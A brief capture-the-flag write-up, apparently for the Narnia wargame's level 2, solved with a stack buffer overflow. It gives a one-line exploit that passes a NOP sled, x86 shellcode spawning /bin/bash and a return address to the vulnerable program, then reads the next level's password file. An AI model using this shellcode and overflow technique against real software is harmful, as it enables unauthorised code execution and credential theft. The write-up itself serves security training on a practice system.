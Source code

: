 <img src="./img/Screenshot 2024-09-15 194927.png"></img>
<img src="./img/Screenshot 2024-09-15 194937.png"></img>
for entering narnia3
```bash
./narnia2 `echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80\x94\xd5\xff\xff"`
```
We got the shell
```bash
cat /etc/narnia_pass/narnia3
```